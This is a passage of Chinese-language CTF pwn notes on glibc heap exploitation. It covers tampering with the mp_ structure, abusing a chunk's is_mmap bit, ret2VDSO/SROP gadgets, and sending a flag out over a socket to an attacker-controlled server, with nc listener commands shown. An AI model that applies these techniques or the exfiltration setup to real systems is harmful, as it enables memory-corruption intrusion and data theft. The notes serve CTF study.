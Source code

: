 我们可以控制其中的`tcache_bins`（例如使用`largebin attack`）为更大的值，从而使得可以释放原本属于`largebin`大小的`chunk`到`tcache`中。

使用如下方式查看其地址：

```
p &mp_.tcache_bins
```

# 控制mp_结构体来阻止mmap

如上面所讲的`mp_`结构体，若修改其中的`mp.no_dyn_threshold`为一个不为`0`的值，则不再会以`mmap`的方式来申请`chunk`。

# 通过修改chunk的is_mmap位来合并清零chunk

若我们能够修改某个`chunk`的`is_mmap`位为`1`，且满足如下条件时：

- 该`chunk`是页对齐的
- 该`chunk`的`prev_size`也是页对齐的（能够整除`0x1000`）

则当释放该`chunk`时，该`chunk`能够和`prev_size`大小的`chunk`合并，并将内容全部清零。

由此，我们可以任意控制`prev_size`的大小，来清零指定的位置。

该方法不能再申请`chunk`回来，只能达到一个清零的目的。

# ret2VDSO

`VDSO`即`Virtual Dynamically-linked Shared Object`。为了加快某些常用的函数和系统调用的访问速度，内核将一些常用的函数和系统调用映射到了`vdso`中，防止经常去系统调用陷入内核态。因此若条件具备，我们可以利用`VDSO`里面的`gadget`。这里记录一些小知识：

- 关闭`ASLR`时，`vdso`段相对比较固定
- 可以打`vdso`中的`rt_sigreturn`函数中的`gadget`进行`srop`，但是执行`rt_sigreturn`时栈顶需要和布置的`frame`有`160`的偏移，原因未知
- 接上，还需要构造`gs`、`ss`这些不常用的寄存器

# 通过socket传输数据，例如flag

在`VNCTF2022`遇到一道题目，题目`close(0);close(1);close(2);`。而这道题也没办法写`shellcode`，难以进行侧信道爆破。

此时可以通过`socket`将`flag`传输到我们的公网服务器。

首先公网服务器监听`10001`端口：

```bash
nc -l -vv 10001
# 有时候不行，我就使用下面这个
nc -l -p 10001
```

然后通过`socket`、`connect`、`write`三个系统调用即可传输`flag`。

## socket系统调用

`socket`系统调用如下：
